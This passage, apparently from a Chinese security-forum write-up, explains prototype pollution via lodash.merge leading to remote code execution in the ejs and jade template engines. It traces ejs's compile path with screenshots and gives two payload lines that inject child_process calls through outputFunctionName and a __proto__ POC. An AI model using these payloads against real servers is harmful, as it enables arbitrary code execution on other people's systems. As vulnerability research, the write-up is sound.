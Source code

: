 ![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-55c56464ce3d197969779f83be4340541ceb22b5.png)

对原型链进行污染的部分就是这里的 lodash.merge 操作，我们通过对 outputFunctionName 进行 原型链污染 后的赋值来实现 RCE ，语句为

```js
"outputFunctionName":"_tmp1;global.process.mainModule.require(\'child_process\').exec(\'calc\');var __tmp2"
```

我们调试一下这个过程

我们从 response.js 进入了 application.js

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-d8693c15e5034404b77329a6c62faa8ea37586e2.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-eab951cdd84ec3e873d0b7397493971b0ff20c87.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-76bcd345f915df758974089c9675b12d18995086.png)

至此，调用了 engine，正式进入 ejs.js，发现 renderFile 的最后又调用到了 `tryHandleCache` ，跟进

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-ce3134bf2f27146dd549dc4a867e50419b42577a.png)

继续跟进，从这里进入了 `handleCache`

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-dc9f70cd0603b834a9efb83b8a6327de02d53703.png)

然后在 `handleCache` 方法中进入 `compile` 方法，这是我们渲染模板所使用的方法

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-7a86754aa3cd728cac23852f7bd3c3a3475b7e90.png)

进入 Template 方法，然后 `return templ.compile();` ，来到 `compile: function ()`

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-ac67528c696b6547ddb4d9f8967ed5456dcd6098.png)

在这里我们可以看到大量的渲染拼接，我们要利用的 `outputFunctionName` 就在其中

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-e7ef15f9cd9d192303169dd56b145421310fe18f.png)

最终我们原型链污染后的内容被送进了 VM 中执行

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-0f12d95f6ccef3706aa32be1a8f9d8b73da394e6.png)

配合 jade 模板引擎实现 RCE
------------------

jade 模板引擎也可以帮助我们实现 原型链污染 to RCE ，这里实际上就是 SSTI，我们可以在这篇 [经典的文章](https://portswigger.net/research/server-side-template-injection) 中看到它。

直接给出最终的 POC

```js
{"__proto__":{"compileDebug":1,"self":1,"line":"console.log(global.process.mainModule.require('child_process').execSync('calc'))"}}
```
